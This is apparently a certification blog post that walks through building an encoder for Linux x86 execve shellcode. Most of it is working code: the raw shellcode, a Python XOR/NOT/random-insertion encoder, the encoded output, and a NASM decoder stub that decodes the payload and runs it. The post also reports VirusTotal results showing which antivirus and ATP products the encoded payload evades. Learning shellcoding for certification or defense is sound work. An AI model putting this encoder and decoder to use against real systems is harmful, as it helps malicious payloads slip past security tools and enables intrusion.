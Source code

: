 ```yaml
---
layout: single
title: Shellcode Encoder for Linux x86
date: 2019-10-05
classes: wide
header:
  teaser: /assets/images/SLAE32/shellcoding32.png
tags:
  - Assembly
  - Pentester Academy
  - SLAE32
  - Encoder
  - Shellcode
  - Certifications
--- 
```

![](/assets/images/SLAE32/shellcoding32.png)

## Introduction
Well, let we make a recap of what we have done since now, we have build a [bind shell](https://bolonobolo.github.io/SLAE32-1/), a [reverse shell](https://bolonobolo.github.io/SLAE32-2/) and a [egghunter shellcode](https://bolonobolo.github.io/SLAE32-3/). A lots of nice stuff for hackers out there who want to test their skills, but it's a useless effort if we want to test this nice things in a real scenario where we can meet Antivirus, ATP or IDS systems. Fortunately, some techniques comes in our help.
In the SLAE course we have study some of this techniques and we appreciated them so much that we decided to use them all together adding a pinch of chaos.<br>
We started using the classic ```execve-stack``` shellcode
```hex
\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```
## Implementation
As said the idea is to use the techniques studied to inject chars inside the execve-stack shellcode. The explanation of the techniques is not in the purposes of this post.
If you want to deeply learn how shellcode encoders works you can search for insertion, XOR and NOT encoders. That said let's explain what we would implement here. 
Given that:
- the hexadecimal alphabet have the corrispective decimal range from 1 to 255 values
- the XOR with fixed char results can be avoided xoring the encoded char with the fixed char (A XOR B ) XOR B = A
- the NOT opertaion results can be avoided repeating the NOT operation on the encoded char
implementation of our encoder works like that:
1. Read each char of the shellcode
2. if the decimal value of the char is less of 128, XOR it with the 0xDD char
3. put a placeholder after the XOR encoded char
4. else NOT the char
5. put a different placeholder after the NOT encoded char
6. put a random char choosed in a range from 1 to 169
7. put the 0xaa char at the end indicates that our shellcode is finished
7. print the encoded shellcode

We wrote a python script to do that

## Encoder
```python
#!/usr/bin/python

# Python Encoder (XOR + NOT + Random)
import random
green = lambda text: '\033[0;32m' + text + '\033[0m'

shellcode = ("\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")
encoded = ""

# The end char is 0xaa
end = "\\xaa"

print 'Encoded shellcode ...'

for x in bytearray(shellcode) :

        if x < 128:
                # XOR Encoding with 0xDD
                x = x^0xDD
                # placeholder for XOR is 0xbb
                encoded += '\\xbb'
                encoded += '\\x'
                encoded += '%02x' % x
        else:
                x = ~x
                encoded += '\\xcc'
                encoded += '\\x'
                encoded += '%02x' % (x & 0xff)

        encoded += '\\x%02x' % random.randint(1,169) # 0xaa is 170 in decimal and the others placeholders are > of 170

print green("Shellcode Len: %d" % len(bytearray(shellcode)))
print green("Encoded Shellcode Len: %d" % len(bytearray(encoded)))
encoded = encoded + end
print encoded
nasm = str(encoded).replace("\\x", ",0x")
nasm = nasm[1:]
# end string char is 0xaa
print green("NASM version:")
# end = end.replace("\\x", ",0x")
print nasm
```
running the script we obtain an obfuscated shellcode, much larger that than the original, but hey a small but full visible shellcode has no future.

```bash
root@slae32-lab:# ./encoder_mixer.py 
Encoded shellcode ...
Shellcode Len: 25
Encoded Shellcode Len: 300
\xbb\xec\x73\xcc\x3f\x9d\xbb\x8d\x51\xbb\xb5\x1b\xbb\xb3\x22\xbb\xf2\x79\xbb\xae\x8e\xbb\xb5\x61\xbb\xb5\x3d\xbb\xf2\x6e\xbb\xf2\x9f\xbb\xbf\x10\xbb\xb4\x89\xcc\x76\x2d\xcc\x1c\x2f\xbb\x8d\x91\xcc\x76\x7e\xcc\x1d\x92\xbb\x8e\x80\xcc\x76\x7b\xcc\x1e\xa7\xcc\x4f\x7f\xbb\xd6\x2b\xcc\x32\x24\xcc\x7f\x37\0xaa
NASM version:
0xbb,0xec,0x73,0xcc,0x3f,0x9d,0xbb,0x8d,0x51,0xbb,0xb5,0x1b,0xbb,0xb3,0x22,0xbb,0xf2,0x79,0xbb,0xae,0x8e,0xbb,0xb5,0x61,0xbb,0xb5,0x3d,0xbb,0xf2,0x6e,0xbb,0xf2,0x9f,0xbb,0xbf,0x10,0xbb,0xb4,0x89,0xcc,0x76,0x2d,0xcc,0x1c,0x2f,0xbb,0x8d,0x91,0xcc,0x76,0x7e,0xcc,0x1d,0x92,0xbb,0x8e,0x80,0xcc,0x76,0x7b,0xcc,0x1e,0xa7,0xcc,0x4f,0x7f,0xbb,0xd6,0x2b,0xcc,0x32,0x24,0xcc,0x7f,0x37,0xaa
``` 
![](/assets/images/SLAE32/assignment_4/encoded_0.png)<br>

Well, now that we have the encoded shell we have to wrote an assembly decoder, the idea is very simple, the sequence of the chars in shellcode is: placeholder,obfuscated shellcode char,random char. So we need basically 3 functions
1. a decoder for the XOR encoded char
2. a decoder for the NOT encoded char
3. a switch that read the placeholder and call the right decoder
When we reach the end (char 0xaa) our shellcode is encoded, loaded in EDI and ready to be called

## Decoder
Let's move the assembly code
```nasm
global _start

section .text
_start:


        jmp short call_decoder


decoder:
        ; the sequence of the chars in shellcode is: placeholder,obfuscated shellcode char,random char
        pop esi
        lea edi, [esi]                  ; load the first placeholder char in edi
        xor eax, eax
        xor ebx, ebx

switch:

        mov bl, byte [esi + eax]        ; load the placeholder in EBX
        cmp bl, 0xaa                    ; compare it with the shellcode end character
        jz shellcode                    ; if whe reached the end jump to the shellcode
        cmp bl, 0xbb                    ; if the placeholder is 0xbb Zero Flag is set
        jz xordecode                    ; if ZF is set jump to XOR decoder
        jmp notdecode                   ; otherwise jump to NOT decoder

xordecode:

        mov bl, byte [esi + eax + 1]    ; load the second char (the good one) from where we are
        mov byte [edi], bl              ; load it in edi
        xor byte [edi], 0xDD            ; xoring char with 0xdd to obtain the original one
        inc edi                         ; increment edi
        add al, 3                       ; move to the next placeholder char
        jmp short switch                ; loop to decode

notdecode:

        mov bl, byte [esi + eax + 1]    ; load the second char (the good one) from we are
        mov byte [edi], bl              ; load it in edi
        not byte [edi]                  ; denot char
        inc edi                         ; increment edi
        add al, 3                       ; move to the next placeholder char
        jmp short switch                ; loop to decode

call_decoder:

        call decoder
        shellcode: db 0xbb,0xec,0x73,0xcc,0x3f,0x9d,0xbb,0x8d,0x51,0xbb,0xb5,0x1b,0xbb,0xb3,0x22,0xbb,0xf2,0x79,0xbb,0xae,0x8e,0xbb,0xb5,0x61,0xbb,0xb5,0x3d,0xbb,0xf2,0x6e,0xbb,0xf2,0x9f,0xbb,0xbf,0x10,0xbb,0xb4,0x89,0xcc,0x76,0x2d,0xcc,0x1c,0x2f,0xbb,0x8d,0x91,0xcc,0x76,0x7e,0xcc,0x1d,0x92,0xbb,0x8e,0x80,0xcc,0x76,0x7b,0xcc,0x1e,0xa7,0xcc,0x4f,0x7f,0xbb,0xd6,0x2b,0xcc,0x32,0x24,0xcc,0x7f,0x37,0xaa
```
Now we can try it
![](/assets/images/SLAE32/assignment_4/encoder_1.gif)<br>
It works!
Let see what Virustotal thinks about our shellcode 
![](/assets/images/SLAE32/assignment_4/encoded_1.png)<br>
Well 11 AV detected our shellcode, not perfect but we can deceive ATP like FireEye and AV like F-Secure, Sophos and ClamAV. 
![](/assets/images/SLAE32/assignment_4/encoded_2.png)<br>
This is a prove our shellcode isn't encoded at best and the encoder itself can be improved but I think this is a good starting point.<br>
You can find this shellcode published on [Exploit-DB](https://www.exploit-db.com/shellcodes/47461)<br>

###### Update
Removing the word "Shellcode" from the script improve sensibly our power of obfuscation in Virustotal. In fact using this code to compile and execute the shellcode change positevly our results on scan.<br>
![](/assets/images/SLAE32/assignment_4/encoded_3.png)<br>
![](/assets/images/SLAE32/assignment_4/encoded_4.png)<br>
As you can see only MacAfee mark it as malicious.<br>
![](/assets/images/SLAE32/assignment_4/encoded_5.png)<br>
This is not an endpoint. To be sure our shellcode is really obfuscated we nee to test it on machines running IDS/ATP agents and/or AV. This is the best way to test our obfuscated shellcode, but is out of this post scope. I really appreciate if someone would test it in ojne or more of the cited environments, please fell free to contact me in this case. Thank you.<br>
<br>
All the codes used in this post are available in my dedicated [github repo](https://github.com/bolonobolo/SLAE32_code).<br>
<br>
This blog post has been created for completing the requirements <br>
of the SecurityTube Linux Assembly Expert certification: [SLAE32 Course](http://securitytube-­training.com/online­‐courses/securitytube­‐linux­‐assembly­‐expert/)<br>


